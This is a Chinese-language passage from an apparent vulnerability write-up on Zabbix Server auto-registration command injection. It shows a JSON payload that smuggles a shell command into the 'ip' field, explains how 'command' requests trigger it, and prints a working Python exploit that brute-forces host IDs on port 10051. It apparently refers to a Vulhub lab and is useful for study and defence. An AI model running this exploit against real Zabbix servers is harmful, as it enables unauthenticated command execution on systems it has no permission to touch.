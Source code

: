 `active checks`是 Agent 主动检查时用于获取监控项列表的命令，Zabbix Server 在开启自动注册的情况下，通过 `active checks` 命令请求获取一个不存在的 host 时，自动注册机制会将 json 请求中的 host、ip 添加到 interface 数据表里。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```json<br>{"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>``` |

第二条数据：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```JSON<br>{"request":"command","scriptid":1,"hostid":10001}<br>``` |

`command` 指令可以在未授权的情况下可指定主机 (hostid) 执行指定脚本 (scriptid)，Zabbix 存在 3 个默认脚本，脚本中的 `{HOST.CONN}` 在脚本调用的时候会被替换成主机 IP。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br># scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1<br># scriptid == 2 == /usr/bin/traceroute {HOST.CONN} 2>&1<br># scriptid == 3 == sudo /usr/bin/nmap -O {HOST.CONN} 2>&1<br>``` |

`scriptid` 指定其中任意一个，`hostid` 为注入恶意 Payload 后的主机 id，但自动注册后的 `hostid` 是未知的，所以通过 `command` 指令遍历 `hostid` 的方式都执行一遍，最后成功触发命令注入漏洞。

由于默认脚本的类型限制，脚本都是在 Zabbix Server 上运行，Zabbix Proxy 是无法使用 command 指令的。payload 长度受限制可拆分多次执行，必须更换 host 名称以执行新的payload。

EXP 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```python<br>import sys<br>import socket<br>import json<br>import sys<br><br><br>def send(ip, data):<br>    conn = socket.create_connection((ip, 10051), 10)<br>    conn.send(json.dumps(data).encode())<br>    data = conn.recv(2048)<br>    conn.close()<br>    return data<br><br><br>target = sys.argv[1]<br>print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>for i in range(10000, 10500):<br>    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})<br>    if data and b'failed' not in data:<br>        print('hostid: %d' % i)<br>        print(data)<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202204.png-water_print](assets/1699408100-d649aa30848faf9a516888421b5dced0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202204.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202690.png-water_print](assets/1699408100-35f5b3e66a526e3019174e2507a4b734.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202690.png-water_print")

### [](#24-cve-2020-11800---%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5)2.4 CVE-2020-11800 - 命令注入
